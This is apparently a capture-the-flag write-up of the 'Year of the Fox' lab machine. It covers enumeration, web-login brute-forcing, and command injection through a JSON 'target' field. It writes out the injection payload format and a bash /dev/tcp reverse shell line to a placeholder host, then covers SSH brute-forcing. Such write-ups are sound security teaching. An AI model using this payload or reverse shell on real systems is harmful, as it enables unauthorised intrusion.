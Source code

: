 ## ENUMERATION
Starting with an nmap scan as always:
```
PORT      STATE    SERVICE     VERSION
80/tcp    open     http        Apache httpd 2.4.29
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=You want in? Gotta guess the password!
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 401 Unauthorized
139/tcp   open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp   open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
2725/tcp  filtered msolap-ptp2
49159/tcp filtered unknown
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX

Host script results:
| smb2-time: 
|   date: 2023-07-11T10:56:50
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: YEAR-OF-THE-FOX, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
|_clock-skew: mean: -19m57s, deviation: 34m39s, median: 2s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: year-of-the-fox
|   NetBIOS computer name: YEAR-OF-THE-FOX\x00
|   Domain name: lan
|   FQDN: year-of-the-fox.lan
|_  System time: 2023-07-11T11:56:49+01:00
```
Taking a look at the webserver first:
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20194100.png)

We don't have any credentials to work with for now so let's move on to Samba.

## SAMBA
Use enum4linux to enumerate SMB shares:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20193807.png)

We got 2 users :
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20193917.png)

You can try to bruteforce smb using user fox but its time consuming.
## ACTIVE ENUMERATION
Use hydra to bruteforce web login. It works with user rascal but the password changes everytime we restart the machine.
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20194218.png)

The website:
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20160130.png)

Search an empty string and you can see the expected input is files. Also , seems like it doesn't like some characters.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20160520.png)

Intercepting request with Burp:
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20163302.png)

Now , I used intruder to launch a simple SQL injection fuzzing but got nothing. So now onto command injection. You can run some commands using : `{"target":"\"; COMMAND \""}`
Used RCE Command : `bash -i >& /dev/tcp/YOUR-IP/PORT 0>&1` but got invalid-character response so used base 64.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20194847.png)

Use burp repeater:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20194710.png)

We gain an RCE:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20195039.png)

And there we get our first flag!
## FOOTHOLD
Check all processes which are running:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20195224.png)

There seems to be SSH running on port 22 and can be confirmed in `/etc/ssh/sshd_config` file which also tells us that only user fox can use it. We can use this.
Use socat:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20195606.png)

We've established a connection. Now time to bruteforce :

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20195736.png)

Sweet! Now SSH as User fox :

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20195918.png)

And there we have our second flag!
Now see all the commands user fox can run : `sudo -l`

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-11%20165345.png)

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-11%20165659.png)
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-11%20165746.png)
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-11%20170230.png)
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-11%20170314.png)
